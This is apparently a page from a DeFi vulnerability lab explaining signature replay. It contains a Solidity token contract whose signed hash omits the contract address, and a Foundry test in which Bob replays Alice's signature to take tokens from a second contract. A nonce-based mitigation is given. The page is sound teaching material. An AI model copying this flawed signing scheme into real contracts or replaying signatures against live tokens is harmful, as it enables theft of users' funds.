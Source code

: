 #  Signature replay  
[SignatureReplay.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol)  
**Name:** Signature Replay Vulnerability

**Description:**  
In this scenario, Alice signs a transaction that allows Bob to transfer tokens from Alice's accountto Bob's account. 

Bob then replays this signature on multiple contracts (in this case, the TokenWhale and SixEyeToken contracts), each time authorizing the transfer of tokens from Alice's account to his. This is possible because the contracts use the same methodology for signing and validating transactions, but they do not share a nonce to prevent replay attacks.

Missing protection against signature replay attacks, Same signature can be used multiple times to execute a function.

**Mitigation:**  
Replay attacks can be prevented by implementing a nonce, a number that is only used once, into the signing and verification process.

**REF**:

https://medium.com/cryptronics/signature-replay-vulnerabilities-in-smart-contracts-3b6f7596df57

https://medium.com/cypher-core/replay-attack-vulnerability-in-ethereum-smart-contracts-introduced-by-transferproxy-124bf3694e25

**TokenWhale** **Contract:**  
```
contract TokenWhale is Test {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    mapping(address => uint256) nonces;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 2000;
        balanceOf[player] = 2000;
    }

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    function transferProxy(
        address _from,
        address _to,
        uint256 _value,
        uint256 _feeUgt,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public returns (bool) {
        uint256 nonce = nonces[_from];
        emit log_named_uint("nonce", nonce);
        bytes32 h = keccak256(
            abi.encodePacked(_from, _to, _value, _feeUgt, nonce)
        );
        if (_from != ecrecover(h, _v, _r, _s)) revert();

        if (
            balanceOf[_to] + _value < balanceOf[_to] ||
            balanceOf[msg.sender] + _feeUgt < balanceOf[msg.sender]
        ) revert();
        balanceOf[_to] += _value;

        balanceOf[msg.sender] += _feeUgt;

        balanceOf[_from] -= _value + _feeUgt;
        nonces[_from] = nonce + 1;
        return true;
    }
}
```
**How to Test:**

forge test --contracts src/test/**SignatureReplay.sol** -vvvv
```
// A function to demonstrate a replay attack using token contracts.
function testSignatureReplay() public {
    // Emit the current balance of the contract.
    emit log_named_uint(
        "Balance",
        TokenWhaleContract.balanceOf(address(this))
    );

    // Generate a unique hash from the input data.
    bytes32 hash = keccak256(
        abi.encodePacked(
            address(alice),
            address(bob),
            uint256(499),
            uint256(1),
            uint256(0)
        )
    );

    // Log the hash.
    emit log_named_bytes32("hash", hash);

    // Sign the hash with the private key of the address.
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

    // Log the signature components.
    emit log_named_uint("v", v);
    emit log_named_bytes32("r", r);
    emit log_named_bytes32("s", s);

    // Recover the signer's address from the signature.
    address alice_address = ecrecover(hash, v, r, s);

    // Log the signer's address.
    emit log_named_address("alice_address", alice_address);

    // Notify the possible attack.
    emit log_string(
        "If attacker got the Alice's signature, the attacker can replay this signature on the others contracts with same method."
    );

    // Bob becomes the prankster.
    vm.startPrank(bob);

    // Bob uses Alice's signature to transfer tokens from Alice's account to his account.
    TokenWhaleContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's new balance.
    emit log_named_uint(
        "SET token balance of Bob",
        TokenWhaleContract.balanceOf(address(bob))
    );

    // Log the next step of the attack.
    emit log_string(
        "Try to replay to another contract with same signature"
    );

    // Log Bob's balance in another token before the replay.
    emit log_named_uint(
        "Before the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob uses Alice's signature to transfer tokens in a different contract.
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's new balance in the second contract.
    emit log_named_uint(
        "After the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob attempts to replay the attack on the same contract, but this fails due to the nonce check.
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's balance after the second attempt.
    emit log_named_uint(
        "After the second replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );
}
```
Red box: signature replayed.
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F25146438-71a8-47bc-a7e7-a32ea63cf6b0%2FUntitled.png?table=block&id=19975d97-c976-4b16-9e9a-2cf903bf0b5f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)